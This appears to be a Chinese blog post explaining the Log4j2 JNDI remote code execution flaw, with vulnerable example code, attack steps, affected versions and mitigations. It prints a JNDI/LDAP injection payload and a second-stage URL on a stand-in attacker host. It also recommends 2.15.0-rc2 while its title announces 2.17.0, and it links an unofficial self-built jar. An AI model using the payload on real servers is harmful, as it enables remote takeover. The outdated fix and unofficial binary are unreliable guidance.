






## 刚刚！最新！Log4J2发布2.17.0，解决第三个 DoS 漏洞！！！

[又有活干！Log4j 2.17.0 发布，解决DoS漏洞](https://link.zhihu.com/?target=https%3A//mp.weixin.qq.com/s%3F__biz%3DMzUzOTE3OTc5MQ%3D%3D%26mid%3D2247483935%26idx%3D2%26sn%3D0844b351d0013a89377bc754c2bb733d%26chksm%3Dfacd2c7fcdbaa56941de4e589ffe56331e5db9c38203acad32aba150350f5fabc2dd2c1c9e2f%26token%3D1807193248%26lang%3Dzh_CN%23rd)

通过JNDI注入漏洞，黑客可以恶意构造特殊数据请求包，触发此漏洞，从而成功利用此漏洞可以在目标服务器上执行任意代码。

注意，此漏洞是可以执行任意代码，这就很恐怖，相当于黑客已经攻入计算机，可以为所欲为了，就像已经进入你家，想干什么，就干什么，比如运行什么程序，植入什么病毒，变成他的肉鸡。


**漏洞详细描述**

Apache Log4j2 远程代码执行漏洞的详细信息已被披露，而经过分析，本次 Apache Log4j 远程代码执行漏洞，正是由于组件存在 Java JNDI 注入漏洞：当程序将用户输入的数据记入日志时，攻击者通过构造特殊请求，来触发 Apache Log4j2 中的远程代码执行漏洞，从而利用此漏洞在目标服务器上执行任意代码。

**攻击原理：**

```java
import org.apache.log4j.Logger;
import java.io.*;
import java.sql.SQLException;
import java.util.*;
public class VulnerableLog4jExampleHandler implements HttpHandler {
 static Logger log = Logger.getLogger(log4jExample.class.getName());
 /**
   * A simple HTTP endpoint that reads the request's User Agent and logs it back.
   * This is basically pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
 public void handle(HttpExchange he) throws IOException {
    string userAgent = he.getRequestHeader("user-agent");
 
 // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
 // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
    log.info("Request User Agent:" + userAgent);
    String response = "<h1>Hello There, " + userAgent + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

根据上面提供的攻击代码，攻击者可以通过**JNDI**来执行**LDAP**协议来注入一些非法的可执行代码。

### **攻击步骤**

-   攻击者向漏洞服务器发起攻击请求。
-   服务器通过**Log4j2**记录攻击请求中包含的基于**JNDI**和**LDAP**的恶意负载`${jndi:ldap://attacker.com/a}`，`attacker.com`是攻击者控制的地址。
-   记录的恶意负载被触发，服务器通过**JNDI**向`attacker.com`请求。
-   `attacker.com`就可以在响应中添加一些恶意的可执行脚本，注入到服务器进程中，例如可执行的字节码`http://second-stage.attacker.com/Exploit.class`。
-   攻击者执行恶意脚本。

## 专门画了一张图，让大家更好理解，一图胜千言：



### 下面就是漏洞“攻陷”，比如可以在baidu搜索框里输入特殊格式请求，造成网页劫持：



### **受影响版本**（看起来是Log4j2才受影响，Log4j 1.2.15以下不受影响）：

Apache Log4j 2.x <= 2.14.1

**已知受影响的应用程序和组件：**

-   Spring-boot-strater-log4j2
-   Apache Solr
-   Apache Flink
-   Apache Druid

据悉，此次 Apache Log4j2 远程代码执行漏洞风险已被业内评级为“高危”，且漏洞危害巨大，利用门槛极低。有报道称，目前 Apache Solr、Apache Struts2、Apache Druid、Apache Flink 等众多组件及大型应用均已经受到了影响，需尽快采取方案阻止。

  

目前，Apache Log4j 已经发布了新版本来修复该漏洞，请受影响的用户将 Apache Log4j2 的所有相关应用程序升级至最新的 Log4j-2.15.0-rc2 版本，同时升级已知受影响的应用程序和组件，如 srping-boot-strater-log4j2、Apache Solr、Apache Flink、Apache Druid。

### **解决方案：**

目前，Apache Log4j 已经发布了新版本来修复该漏洞，请受影响的用户将 Apache Log4j2 的所有相关应用程序升级至最新的 Log4j-2.15.0-rc2 版本，同时升级已知受影响的应用程序和组件，如 srping-boot-strater-log4j2、Apache Solr、Apache Flink、Apache Druid。

## **临时修复建议：**

```text
JVM 参数添加 -Dlog4j2.formatMsgNoLookups=true
log4j2.formatMsgNoLookups=True
FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为true
```

**安全建议：**

据 Apache 官方最新信息显示，release 页面上已经更新了 Log4j 2.15.0 版本，**主要是那个log4j-core包，漏洞就是在这个包里产生的，如果你的程序有用到，尽快紧急升级。**

**现在网上公开的仓库还下载不到解决漏洞的Log4j2 2.15.0版本，需要自己编译源码获取Jar包，我这里有一份，有需要的自取：**

## Log4j2 2.15.0 jar包下载：

[Log4j2 2.15.0 jar包下载](https://link.zhihu.com/?target=http%3A//note.youdao.com/noteshare%3Fid%3Dfd5c7e86b6afbef3d3ae5c3bf14c080b%26sub%3D6CF43D2E62D84465A4D0F7C8B5D0BDC4)

## 原理详见此篇：

[一图搞懂Log4J2远程代码执行漏洞原理](https://link.zhihu.com/?target=https%3A//mp.weixin.qq.com/s%3F__biz%3DMzUzOTE3OTc5MQ%3D%3D%26mid%3D2247483824%26idx%3D1%26sn%3D5bf42fba789ad4ed885183387859cc47%26chksm%3Dfacd2fd0cdbaa6c64941c0e895394bf20546932cd21c4f89165c316c2f41b2f8769c5ed45d95%26token%3D1988224816%26lang%3Dzh_CN%23rd)

**Log4J2带给我们的警示：**

[针对 log4j 此次漏洞，应该引起我们哪些警示？利用工具的同时我们是不是应该更注重基础原理？](https://www.zhihu.com/question/505222442/answer/2270983548)